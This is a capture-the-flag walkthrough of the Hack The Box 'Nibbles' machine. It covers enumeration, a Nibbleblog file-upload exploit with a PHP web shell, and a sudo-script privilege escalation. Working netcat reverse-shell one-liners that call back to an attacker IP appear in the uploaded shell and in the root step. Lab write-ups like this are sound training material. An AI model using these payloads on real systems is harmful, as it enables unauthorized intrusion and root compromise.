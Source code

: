 `Box: Linux`
`Level: Easy`

### Index
1. [Box Info](#Box%20Info)
2. [Nmap Enum](#Nmap%20Enum)
3. [Web Enum](#Web%20Enum)
	1. [`GoBuster reveals the nibbleblog version`](#`GoBuster%20reveals%20the%20nibbleblog%20version`)
	2. [`Uploading Shell on My Image and getting Reverse Shell`](#`Uploading%20Shell%20on%20My%20Image%20and%20getting%20Reverse%20Shell`)
	3. [`USer Flag Captured`](#`USer%20Flag%20Captured`)
4. [Privilege Escalation](#Privilege%20Escalation)
	1. [`File Trasfer from Target to Kali using PHP`](#`File%20Trasfer%20from%20Target%20to%20Kali%20using%20PHP`)
	2.  [`LinPEAS Findings`](#`LinPEAS%20Findings`)
	3.  [`Grabbing Root Flag`](#`Grabbing%20Root%20Flag`)

### Box Info
```
Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.
```

### Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn nibbles.htb
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only two ports are open. Let's dive into web.

### Web Enum

![](nibbles_web0.png)

###### `GoBuster reveals the nibbleblog version`
```
# gobuster dir -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 323] [--> http://nibbles.htb/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://nibbles.htb/nibbleblog/themes/]
/admin                (Status: 301) [Size: 321] [--> http://nibbles.htb/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 323] [--> http://nibbles.htb/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 325] [--> http://nibbles.htb/nibbleblog/languages/]
```

![](nibbles_web1.png)

Looking on Exploit-DB i found that the `Nobbleblog v4.0.3` is vulnerable to Arbitrary File Upload vulnerability. Metasploit module is available but I am going to try it out manually without Metasploit. Looking at the exploit code at [Exploit-DB](https://www.exploit-db.com/exploits/38489) i notice that the file upload require valid set of credentials on `http://nibbles.htb/nibbleblog/admin.php`. I just enter `admin.php` to see if it is present on our target. But I will run the FeroxBuster to enumerate more files. I also ran `ffuf` to enumerate subdomains but didn't find anything interesting.
```
# ffuf -H "Host: FUZZ.nibbles.htb" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://nibbles.htb/ -mc 200 -fl 17
```

```
# feroxbuster -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 404 -x php
200      GET       27l       96w     1401c http://nibbles.htb/nibbleblog/admin.php
```

![](nibbles_web2.png)

The default credentials works. 

###### `Uploading Shell on My Image and getting Reverse Shell`

![](nibbles_web3.png)
I uploaded `callmeback.php` from the Nibbles directory. Here's the Content of `callmeback.php` file.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Nibble.HTB]
└─# cat callmeback.php        
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f"); ?>
```
Now getting shell. These file goes to `http://nibbles.htb/nibbleblog/content/private/plugins/my_image` and click on `image.php`. Make suer your NC at port 4444 is running.

![](nibbles_web4.png)

###### `USer Flag Captured`
```
# nc -lvnp 4444                         
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 51022
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ ls
db.xml
image.jpg
image.php
$ ls /home
nibbler
$ ls /home/nibbler
personal.zip
user.txt
$ cat /home/nibbler/user.txt
66b0b3fc5944b38
```
Notice the `Personal.zip` in the home directory.
### Privilege Escalation 

##### `File Trasfer from Target to Kali using PHP`
This time I'm trying something different. Trying to transfer file from our target Nibbles to our kali machine using PHP.
```
$ which php
/usr/bin/php
$ cd /home/nibbler
$ php -S 0.0.0.0:8081   #On the Target You will see the next line here once the following wget command pull out the file.
[Sat Sep 28 00:57:33 2024] 10.10.14.8:54430 [200]: /personal.zip
```

Now on Kali
```
# wget http://nibbles.htb:8081/personal.zip                                                  
--2024-09-28 00:57:33--  http://nibbles.htb:8081/personal.zip
Resolving nibbles.htb (nibbles.htb)... 10.10.10.75
Connecting to nibbles.htb (nibbles.htb)|10.10.10.75|:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1855 (1.8K) [application/x-zip-compressed]
Saving to: ‘personal.zip’

personal.zip                              100%[=====================================================================================>]   1.81K  --.-KB/s    in 0.001s  

2024-09-28 00:57:33 (1.92 MB/s) - ‘personal.zip’ saved [1855/1855]
```

###### `LinPEAS Findings`
```
Linux version 4.4.0-104-generic (buildd@lgw01-amd64-022) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.5) ) #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017
Sudo version 1.8.16 

$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

Running `Sudo -l` command shows that we can execute monitor.sh without PASSWD. Let's add our reverse shell code at the end of the file and run it with sudo.

```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found

^C
```

running NC on port 4444
###### `Grabbing Root Flag`
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 51060
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

